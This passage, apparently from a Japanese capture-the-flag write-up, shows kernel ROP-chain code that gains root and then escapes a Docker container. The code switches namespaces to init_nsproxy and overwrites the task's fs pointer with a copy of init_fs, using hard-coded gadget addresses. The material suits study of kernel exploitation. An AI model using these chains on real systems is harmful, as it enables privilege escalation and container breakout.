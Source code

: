 ```rop.c
  *rop++ = 0;
  *rop++ = (ulong)NIRUGIRI;
  *rop++ = user_cs;
  *rop++ = user_rflags;
  *rop++ = (ulong)krop_stack + KROP_USTACK_SIZE / 2;
  *rop++ = user_ss;
```

![](https://hackmd.io/_uploads/SJj9iMy-j.png)

ルート！

# container escape

しかし、この問題はこれで終わりではありません。コンテナの中なので、コンテナエスケープする必要があります。個々から先の知識は全くありません、またもやカンニングしましょう。こっから先は写経です。意味のある写経です。カス写経です。
といっても、RIPとれてればそんなに難しいことではないみたい。docker内では`setns()` syscallは禁止されてるから、今回はfilesystem namespaceだけ移動させます。以下の感じ:

```abst.c
// ROOTをとるには...?
commit_cred(prepare_kernel_cred(0));

// docker escape(fs)するには...?
switch_task_namespaces(find_task_vpid(1), init_nsproxy);
current->fs = copy_fs_struct(init_fs);
```

これだけ！やった〜〜〜〜。

```rop.c
  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = 1; // init process in docker container
  *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid
  *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
  *rop ++ = 0;
  *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
  *rop++ = KADDR(0xffffffff819b21d3); // pop rsi
  *rop++ = KADDR(0xffffffff8245a720); // &init_nsproxy
  *rop++ = KADDR(0xffffffff810ea4e0); // switch_task_namespaces

  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = KADDR(0xffffffff82589740); // &init_fs
  *rop++ = KADDR(0xffffffff812e7350); // copy_fs_struct
  *rop++ = KADDR(0xffffffff8131dab0); // push rax; pop rbx

  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = getpid();
  *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid

  *rop++ = KADDR(0xffffffff8117668f); // pop rdx
  *rop++ = 0x6E0;
  *rop++ = KADDR(0xffffffff81029e7d); // add rax, rdx
  *rop++ = KADDR(0xffffffff817e1d6d); // mov qword [rax], rbx ; pop rbx ; ret ; (1 found)
  *rop++ = 0; // trash
```
